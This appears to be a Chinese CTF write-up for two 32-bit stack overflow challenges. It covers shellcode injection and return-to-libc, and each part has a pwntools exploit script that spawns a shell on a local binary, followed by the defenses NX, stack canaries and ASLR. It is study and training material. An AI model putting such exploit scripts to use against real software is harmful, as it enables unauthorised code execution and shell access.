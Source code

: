
## 题目名
<h2>level1_shellcode</h2>
### 漏洞分析

![avatar](level1.png)

<h4><strong>checksec</strong> 发现什么保护都没没有开启,执行程序发现貌似提供了一个地址，而且三次执行还都在变化,由于是32位文件，所以丢进IDA中,F5</h4>
![avatar](7f9e11c2bc84884de146673bdc1d0a5.png)
<h4>在IDA ，看到先进入vunlnerable函数,后回显一句话进入vunlnerable,看看</h4>
![avatar](00ad2f69d80ed07b6343217796e2263.png)
![avatar](1df202b8523f64b146a9677403649f1.png)


<h4>看到buf,应该是栈上的变量，可知偏移量：(0x88+4),之后再填返回地址，由于可填充的字节较长，且没有任何保护，加之ida中没看到system('/bin/sh'),所以用shellcode进行攻击，即在栈区填充shellcode的代码，之后再执行，所以需要执行代码的起始地址，即buf的首地址</h4>
### 漏洞利用
代码


	Python
	from pwn import *

	context.log_level='debug'
	io = process('./level1_shellcode')
	shellcode = asm(shellcraft.sh())
	buffer=io.recvline()[14:-2]
	buf_addr = int(buffer,16)
	payload = shellcode + '\x90' * (0x88+0x4-len(shellcode)) + p32(buf_addr)
	io.sendline(payload)
	io.interactive()
	io.close()

![avatar](level11.png)

### 漏洞防护
<h4>防护手段：1.可以设置buf所在的区域（栈）不可执行，即使栈只用来存储数据，而不能执行这些数据（执行的时候是当指令了），可以开启NX保护</h4>
  <h4>2.设置检查机制，想办法在ret之前对数据设立随机值(由系统生成，传递至某一位置)，有点像关卡，比如金丝雀保护</h4>
 <h4>3.编译时使用指令，令栈不可执行 4.开启ALSR，是堆栈地址随机化，从而无法确定攻击代码的其实地址，ret的覆写值难以确定。</h4>
## 题目名
<h2>level2_return_to_libc</h2>
### 漏洞分析


![avatar](level2.png)


<h4><strong>checksec</strong>开启NX,shellcode 得凉，执行程序发现可以输入，，有与可执行文件名含libc，<strong>file</strong>一下，是动态链接文件，ldd查看依赖的共享库，之后放到IDA中，可以看到乍一看level1很像，但不一样，一开始就调用了libc库中的system函数，自然想到可能有/bin/sh,Shift F12看到/bin/sh在.data</h4>



![avatar](342b2aa1f47faddb88cec5a2d246d8c.png)


![avatar](178e3f94079c290771e4e36200ba860.png)
<h4>利用ROP，objdump分别查找对应地址</h4>

![avatar](level22.png)

![avatar](1919808-20200218101903926-1643655401.png)

<h4>借别的大佬的图理解这个漏洞</h4>
### 漏洞利用
代码
	from pwn import*

	context.log_level='debug'

	p=process('./level2_return_to_libc')


	binsh_addr=0x0804a024  #which is in .data ,it may be in libc.so at first
	#system@plt=0x08048320
	system_plt=0x08048320
	payload=(0x88+0x4)*'a'+p32(system_plt)+'cccc'+p32(binsh_addr)

	p.recvuntil('\n')
	p.send(payload)
	p.interactive()

![avatar](level23.png)

### 漏洞防护

<h4>1.ALSR开启，是动态库的装载地址不确定，从而难以确定函数地址 </h4>
<h4>2.设置检查机制，想办法在ret之前对数据设立随机值(由系统生成，传递至某一位置)，有点像关卡，比如金丝雀保护，进行栈的保护，以防止篡改ret_address</h4>
